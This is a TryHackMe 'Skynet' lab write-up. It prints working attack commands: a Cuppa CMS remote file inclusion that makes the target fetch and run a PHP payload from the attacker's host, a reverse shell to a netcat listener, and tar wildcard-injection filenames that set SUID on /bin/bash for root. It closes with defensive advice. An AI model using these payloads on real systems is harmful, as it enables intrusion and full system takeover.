# Skynet - TryHackMe Writeup

- **Platform:** TryHackMe
- **Difficulty:** Easy
- **OS:** Linux
- **Objective:** Obtain root privileges

## 1. Reconnaissance
- First, we scan the target machine for open ports. I used nmap with NSE Default Scripts and Service Version Detection:
```bash
nmap -sC -sV 10.114.137.61
```
- Running the command, we get 6 ports open: 22, 80, 110, 139, 143, 445. Looking at the results we see that the SMB service is also running.



- Before connecting to the SMB we'll run a scan with Gobuster to search for hidden directories. We find an interesting directory called "squirrelmail". Going to http://10.114.137.61/squirrelmail we see a login form. 

```bash
gobuster dir -u 10.114.137.61 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```




- Now we'll connect to SMB as anonymous to see what useful things we can find.

```bash
smbclient //10.114.137.61/anonymous -N
```

- Navigating through it, we see 4 interesting files: "attention.txt", "log1.txt", "log2.txt" (which is empty, so not too helpful), "log3.txt" (which is empty, so not too helpful). We get them using the `get` command and `cat` them to see what we get. The most important is "log1.txt" which contains a list of passwords. From "attention.txt" we get a name: Miles Dyson, which might give us a hint to the username on the squirrelmail login form.



## 2. Initial Access

- Now going back to squirrelmail, we try the username: `milesdyson` with the first password from the list: `cyborg007haloterminator` and we are logged in (luckily).



- Now, going through the emails we find a password that might be useful.



- Great, with this password we can try again to connect to SMB Client but this time as milesdyson, with the password we just found.

```bash
smbclient //10.114.137.61/milesdyson -U milesdyson
```

- Now that we've connected we again try to find useful things, and we see a folder called "notes". We go in it to see what it contains. There is one interesting file called "important.txt".



- If we `get` it and the `cat` it we find the hidden directory the task asks us to find "45kra24zxs28v3yd". Going to http://10.114.137.61/45kra24zxs28v3yd does nothing really, as there is just an image. But if we use Gobuster again, this time on this directory (45kra24zxs28v3yd), we find something good ("administrator" directory).

```bash
gobuster dir -u http://10.114.137.61/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```




- Going to http://10.114.137.61/45kra24zxs28v3yd/administrator we find a new login form (Cuppa CMS).



- Searching it online for vulnerabilites, we find on ExploitDB that it is vulnerable to RFI. Knowing this, we'll download the exploit provided by ExploitDB. 



- Now, we'll try to get an RCE. First let's see if it is achievable by trying to execute some simple code on it. First we need to set up a HTTP server to transfer files between our machine and the target machine. We start it using: 

```bash
python3 -m http.server 8000
```



- Now that we have the server started, we open a new terminal and make a .php file where we write a simple script:

```php
<?php
system('whoami');
?>
```
- We try to run it on the target server using the exploit downloaded from ExploitDB:



- We edit the highlighted URL with our configuration.

```bash
curl http://10.114.137.61/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=10.114.101.252:8000/payload.php
```

- Run it in the terminal and we get the response ("www-data" is the result from the `whoami` command) from the target server:



- Good, so we have a confirmation that we can run our code on the target server. We go to pentestmonkey, as usual, and get his reverse shell script. Now, again, we need in a terminal our server running, in another terminal we need to set up a netcat listener, and in a third terminal we will send our payload:

1.
```bash
python3 -m http.server 8000
```

2.

```bash
nc -lvnp 9999
```

3.

```bash
curl http://10.114.137.61/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=10.114.101.252:8000/reverse.php
```

- We got the reverse shell, and now we can go and get the first flag:



- Before going to the next phase, let's explain a little bit what exactly we did: we found out that the CMS had a vulnerability (Local/Remote File Inclusion) and downloaded the exploit from ExploitDB. Then, set up a HTTP server, because for the server to run our file, we need to put it out on the internet, and we do this by starting an HTTP server, which supports PHP. With our server set up, we try to see, with a simple script, if the target machine runs our code. The `curl` command from above makes a request to the target website which makes back a request to our script and runs it. Having the confirmation that it runs, we set up a netcat listener, keep the HTTP server running and send again a request, but this time with our reverse shell payload. After we get the connection we go and get the first flag.

## 3. Privilege Escalation

- Great, we got the first flag, we continue our objective, to get the root permissions. In the "/home/milesdyson" directory, aside from the first flag, we also have a directory called "backups". In it, we find:



- There is an interesting file called "backup.sh" which contains a bash script. On the final line the command `tar cf /home/milesdyson/backups/backup.tgz *` is vulnerable because of the asterisk sign '* ' , which can expose a vulnerability called "Wildcard Injection". If we inspect the /etc/crontab file we find out that it runs at some intervals with root permissions. Why is it important? The shell reads the current directory and takes all the names inside it, then it replaces '*' with all the names, separated by a space, and then sends it as individual arguments to `tar`. But what if inside the directory there are files that have a name starting with '-', for example "--checkpoint==1"? The Shell will treat them as arguments and `tar` will treat them as parameters/execution options, and will not treat them as a file name. For example if a file is named: "--checkpoint-action=exec=COMMAND", it specifies `tar` to execute that COMMAND when it reaches it. If we have the permission to write inside that directory, which we do, we can run what commands we want.


- We can try to see if we can exploit it by searching for a little documentation online. You can search for "tar wildcard exploit" for example. And we see that we can exploit it with the following commands:


 
### Explaining the Exploit Commands:

Line 1:
```bash
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
```
- We put the standard header for the Bash interpretor (#!/bin/bash)
- We set the SUID bit on /bin/bash (chmod +s /bin/bash)

Line 2 and 3:

```bash
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

- We create 2 empty files with the names that are identical to the tar documentation.

- Now that everything is in place, when the automated script runs the backup process with root permissions: `tar cf /home/milesdyson/backups/backup.tgz *` , the shell will replace the wildcard '*' with the list from the folder, so it will become `tar cf /home/milesdyson/backups/backup.tgz --checkpoint=1 --checkpoint-action=exec=sh shell.sh shell.sh ...`. When `tar` begins the archivation and reaches the control point (checkpoint=1), it will execute the script located in shell.sh, as a root, because the cron process runs as a root, and will give /bin/bash root permissions. After the cronjob ended, we can finally run `/bin/bash -p` and become root.



- From here on, we can go in the root directory and get the final flag.




## 4. Summary & Key Takeaways

- **SMB Misconfigurations:** Anonymous / Guest read access on network shares often exposes sensitive internal documents, unencrypted logs, and custom wordlists that serve as initial footholds.
- **Recursive Directory Fuzzing:** Content discovery should not stop at the web root. Finding deep, unlinked application subpaths (such as `/45kra24zxs28v3yd/administrator`) requires targeted fuzzing on directories discovered in notes or configuration files.
- **Vulnerable CMS Extensions & RFI:** Legacy web applications and unpatched plugins that pass user-supplied URL parameters directly into file inclusion functions (`include`, `require`) without strict whitelisting introduce critical Remote File Inclusion (RFI) vulnerabilities, leading directly to Remote Code Execution (RCE).
- **Wildcard Injection (`*`) in Automated Tasks:** Using wildcards in shell scripts and cron jobs executed with root privileges is a major security risk. Utilities like `tar`, `chmod`, or `chown` process arguments sequentially, enabling attackers to inject command flags (like `--checkpoint-action`) via crafted file names to achieve local privilege escalation.
- **Defensive Hardening:** Disable anonymous SMB sharing, upgrade PHP runtime settings (`allow_url_include = Off`), and avoid wildcards in cron scripts by explicitly referencing directory paths (for example by using `--` or `./`).

---

### References
- **Room Walkthrough / Methodology Reference:** [John Hammond - TryHackMe Skynet](https://www.youtube.com/watch?v=HXikLrFVIXc)
- **Privilege Escalation Research:** [GTFOBins - Tar](https://gtfobins.github.io/gtfobins/tar/)
